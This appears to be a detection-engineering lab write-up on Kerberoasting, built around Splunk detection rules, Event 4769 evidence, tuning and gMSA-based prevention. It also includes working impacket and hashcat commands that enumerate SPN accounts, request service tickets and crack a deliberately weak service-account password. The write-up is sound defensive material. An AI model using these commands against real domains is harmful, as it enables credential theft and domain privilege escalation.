

# Kerberoasting — T1558.003

**Tactic:** Credential Access · **MITRE ATT&CK:** [T1558.003](https://attack.mitre.org/techniques/T1558/003/)

## Technique

Kerberoasting abuses a design property of Kerberos: any authenticated domain user can request
a service ticket for any account that has a Service Principal Name (SPN), and that ticket is
encrypted with the **service account's password hash**. The attacker requests the ticket, takes
it offline, and brute-forces the password against the encryption — no interaction with the
service, no failed logons, no account lockouts.

The vulnerability isn't the protocol; it's the password. A weak or non-rotated service-account
password cracks in seconds. A strong one (or a gMSA with a 120-character rotating password) is
computationally hopeless to crack.

## The attack

A service account `svc-sql` was created with an SPN and a weak password (`Password123!`), and —
as a realistic misconfiguration — made a member of Domain Admins. From Kali, as an ordinary
domain user (`bkiss`) with no special privileges:

```bash
# Enumerate SPN accounts
impacket-GetUserSPNs -dc-ip 10.10.30.10 corp.lab/bkiss

# Request the tickets in crackable format
impacket-GetUserSPNs -request -dc-ip 10.10.30.10 corp.lab/bkiss -outputfile kerberoast.txt

# Crack offline
hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt \
  -r /usr/share/hashcat/rules/rockyou-30000.rule
hashcat -m 13100 kerberoast.txt --show
```

`Password123!` was not in raw rockyou — the base word was, but a ruleset was needed to append
the trailing `!`. This is the practical lesson about complexity requirements: they produce
*predictable* passwords (a word, a number, a symbol), which is exactly what attacker rulesets
are built to generate.

## The evidence

Requesting the ticket generates **Event 4769** (Kerberos service ticket requested) on the domain
controller — logged regardless of whether the crack ever succeeds. This is the core of the
detection: you cannot prevent the request, but you can always observe it.

The distinguishing fields:

| Field | Value | Why it matters |
|-------|-------|----------------|
| `Service_Name` | `svc-sql` | a service account, not a machine account |
| `Ticket_Encryption_Type` | `0x17` | RC4 — deliberately requested because it cracks faster than AES |
| `Account_Name` | `bkiss` | the requesting user |
| `Client_Address` | attacker IP | where the request came from |

## The detection

```spl
index=winlogs EventCode=4769 Ticket_Encryption_Type=0x17
Service_Name!="*$" Service_Name!="krbtgt"
| stats count values(Service_Name) as services by Account_Name, Client_Address
```

RC4 (`0x17`) requests to non-machine service accounts are the high-fidelity signal — modern
Windows negotiates AES by default, so an explicit RC4 request for a service account stands out.

## False positives and tuning

- **Machine accounts** (`Service_Name` ending in `$`) request tickets constantly as part of
  normal domain operation — excluded with `Service_Name!="*$"`.
- **`krbtgt`** appears in legitimate ticket-granting traffic — excluded explicitly.
- Without these two filters the rule fires on ordinary domain activity and is unusable.

## Limitation

This rule keys on RC4. A more sophisticated attacker can request **AES** tickets to blend in,
and `0x17` will not fire. The cipher-independent companion rule catches roasting regardless of
encryption by looking for one account requesting tickets for many distinct services in a short
window — a pattern no normal user produces:

```spl
index=winlogs EventCode=4769 Service_Name!="*$" Service_Name!="krbtgt"
| stats dc(Service_Name) as services values(Service_Name) by Account_Name
| where services > 3
```

A mature environment runs both.

## Defensive note

Detection catches the request, but prevention is where a defender wins: strong service-account
passwords, or migrating to Group Managed Service Accounts (gMSA), whose 120-character passwords
rotate automatically and are never crackable. The lab demonstrated this directly — the same
attack against a gMSA yields a ticket that cannot be broken.

## Alert configuration

Scheduled every 5 minutes, search window last 5 minutes (matched to the schedule to avoid
re-firing on stale events), trigger once when results > 0, throttle 3600s, shared in app.

---

## Evidence (live)

The detection firing on a real Kerberoast — a 4769 service-ticket request for `svc-sql`
using RC4 (`0x17`), requested by `bkiss` from the attacker host `10.10.40.10`:


